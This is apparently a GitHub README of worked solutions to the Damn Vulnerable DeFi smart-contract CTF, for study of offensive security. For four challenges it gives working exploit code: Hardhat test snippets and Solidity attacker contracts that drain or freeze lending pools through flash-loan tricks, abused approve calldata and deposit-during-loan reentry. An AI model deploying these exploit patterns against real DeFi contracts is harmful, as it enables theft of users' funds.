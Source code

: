 damn vulnerable defi
====================

![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

https://www.damnvulnerabledefi.xyz/

contracts are in the `contracts` dir
solutions are in the `test` dir

just do `yarn run unstoppable` or whatever to run the test

---

unstoppable
-----------

"There's a lending pool with a million DVT tokens in balance, offering flash loans for free.

If only there was a way to attack and stop the pool from offering flash loans ...

You start with 100 DVT tokens in balance."

solution:

flash loans are uncollatoralized loans, but the borrower must pay back the loan in the same block with interest.

in the `flashLoan` function, we can fail the assert if `poolBalance` != `balanceBefore`. if we just call `transfer` and send the tokens to the pool, `poolBalance` would not be updated so the assert would fail.

as such:

```js
it('Exploit', async function () {
    await this.token.connect(attacker).transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
});
```

---

naive receiver
--------------

"There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)"

solution:

the flash loan can be initiated by the receiver as there are no checks in place.

```js
it('Exploit', async function () {
    for (let i = 0; i < 10; i++) {
        await this.pool.connect(attacker).flashLoan(this.receiver.address, "0");
    }
});
```

truster
-------

"More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction."

The exploit lies in the fact that a generic `bytes calldata data` argument is supplied to the `flashLoan` function.

The function passed into this is the ERC20 approval function, which grants permission to other addresses to spend tokens on their behalf. When calling the `exploit` function in the `exploitTruster` contract, this is passed into the `flashLoan` function which grants approval to the attacker, after which the tokens are transferred.

```js
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../truster/TrusterLenderPool.sol";

contract ExploitTruster {
    TrusterLenderPool pool;
    IERC20 public immutable DVT;

    constructor(address _pool, address _tokenAddress) {
        pool = TrusterLenderPool(_pool);
        DVT = IERC20(_tokenAddress);
    }

    function exploit(
        uint256 _amount,
        address _borrower,
        address _target,
        bytes calldata _data) external {
            /* approves attacker to transfer */
            pool.flashLoan(_amount, _borrower, _target, _data);
            /* transfer from pool */
            DVT.transferFrom(address(pool), msg.sender, 1000000 ether);
        }
}
```

```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const ExploitTrusterFactory = await ethers.getContractFactory('ExploitTruster', attacker);
    /* pool and DVT address in args */
    const exploitContract = await ExploitTrusterFactory.deploy(this.pool.address, this.token.address);

    /* ERC20 approve function */
    const abi = ["function approve(address spender, uint256 amount)"];
    const interface = new ethers.utils.Interface(abi);
    const data = interface.encodeFunctionData("approve", [exploitContract.address, TOKENS_IN_POOL]);

    await exploitContract.exploit(0, attacker.address, this.token.address, data);
});
```

side entrance
-------------

"A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool."


The flashloan will call `execute` which we can implement. We can initiate the `flashLoan` to borrow which will call `execute` which can deposit the borrowed tokens back to the pool. We can then withdraw them.

```js
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../side-entrance/SideEntranceLenderPool.sol";

contract ExploitSideEntrance {
    SideEntranceLenderPool pool;
    address payable owner;

    constructor(address _pool) {
        pool = SideEntranceLenderPool(_pool);
        owner = payable(msg.sender);
    }

    function exploit(uint256 amount) external {
        /* get the flashloan which deposits back into the contract */
        pool.flashLoan(amount);
        /* wthdraw */
        pool.withdraw();
    }

    function execute() external payable {
        /* so the flashloan deposits */
        pool.deposit{value: address(this).balance}();
    }

    receive() external payable {
        /* send money back to attacker wallet */
        owner.transfer(address(this).balance);
    }
}
```

```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    const ExploitSideEntranceFactory = await ethers.getContractFactory('ExploitSideEntrance', attacker);
    const exploitContract = await ExploitSideEntranceFactory.deploy(this.pool.address);

    await exploitContract.exploit(ETHER_IN_POOL);
});
```









todo:
* the rewarder
* selfie
* compromised
* puppet
* puppet v2
* free rider
* backdoor
* climber
* safe miners
